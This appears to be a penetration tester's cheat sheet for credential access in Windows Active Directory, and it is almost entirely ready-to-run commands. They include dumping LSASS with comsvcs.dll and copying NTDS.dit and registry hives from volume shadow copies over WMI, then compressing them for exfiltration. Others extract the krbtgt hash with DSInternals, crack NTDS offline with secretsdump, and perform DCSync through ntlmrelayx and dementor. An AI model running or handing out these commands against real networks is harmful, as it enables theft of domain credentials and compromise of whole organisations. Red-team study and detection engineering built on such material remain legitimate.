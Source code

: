 # Credential Access
### SecureString to Plaintext
```powershell
$SecPass = "<SECURE PASS STRING>" | ConvertTo-SecureString; 
(New-Object System.Management.Automation.PSCredential "N/A", $SecPass).GetNetworkCredential().Password; 
```
### Passwords in Description
`ActiveDirectory` Module
```powershell
Get-ADUser -Filter 'Description -like "*password*"' -Properties Description | select name,Description
```
Using `PowerView.ps1`
GitHub: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
```powershell
Find-UserField -SearchField Description -SearchTerm "password"
```
### Volume Shadow Creation
Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)
```powershell
# creating volume shadow copy
wmic /node:"[AD_IP_address]" /user:"[username]" /password:"[password]" process call create "cmd /c vssadmin create shadow /for=C: 2>&1"

# copying NTDS.dit, SYSTEM and SECURITY files from shadow copy
wmic /node:"[AD_IP_address]" /user:"[username]" /password:"[password]" process call create "cmd /c copy \\[shadow_copy_dir]\\Windows\\NTDS\\NTDS.dit [target_folder] & copy \\[shadow_copy_dir]\\Windows\\System32\\config\\SYSTEM [target_folder] & copy \\[shadow_copy_dir]\\Windows\\System32\\config\\SECURITY [target_folder]"

# compressing files for exfiltration
7za.exe a -mx3 nt.7z \\\\[AD_IP_address]\\c$\\[target_folder]
```
### Dumping LSASS with \`rundll32.exe\`
Same behavior that would occur if you `Right-Clicked` the process in Task Manager and dump LSASS manually.
```powershell
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```
### Memory Dump with `Get-StorageDiagnosticInfo`
Source: [https://x.com/0gtweet/status/1440255495797764108](https://x.com/0gtweet/status/1440255495797764108)
https://docs.microsoft.com/en-us/powershell/module/storage/get-storagediagnosticinfo?view=windowsserver2019-ps
```powershell
$fname = Get-StorageSubSystem | Select -Property FriendlyName
Get-StorageDiagnosticInfo -StorageSubSystemFriendlyName $fname -IncludeLiveDump -DestinationPath C:\
```
### Dumping NTDS with `ntdsutil.exe`
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
### Extracting from NTDS, SYSTEM, SECURITY
You may have to modify the following registry key:
* `HKLM\\System\\CurrentControlSet\\Control\\Lsa\\FipsAlgorithmPolicy and set "Enabled" to 0`
```powershell
Install-Module DSInternals; Import-Module DSInternals;

$key = Get-BootKey -SystemHivePath '.\registry\SYSTEM';
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=burmat,DC=local' -DBPath '.\Active Directory\ntds.dit' -BootKey $key;
```
## Impacket's `secretsdump.py`
### Extracting NTDS with `ntdsutil.exe`
```powershell
C:\> ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```
### Offline NTDS Cracking
```sh
secretsdump.py -ntds ./active directory/atds.dit -system SYSTEM LOCAL -output secrets_dump.ntds -user-status
```
Remove all of the built-in and disabled accounts:
```sh
grep -i "Enabled" secretsdump.ntds | awk -F":::" '{print $1":::"}'| grep -v '$:\\|$DUPLICATE\\|IWAM_\\|IUSR_\\|ASPNET\\|HelpAssistant\\|SUPPORT_\\|Guest\\|DefaultAccount\\|HealthMailbox' >> Enabled_Accounts.txt
```
### DCSync
```sh
ntlmrelayx.py -t DCSYNC://172.16.1.200 -smb2support -debug
python3 dementor.py -d burmat.local -u jsmith -p 'S3cur3PASS123$' 10.10.1.141 172.16.1.23 -debug
```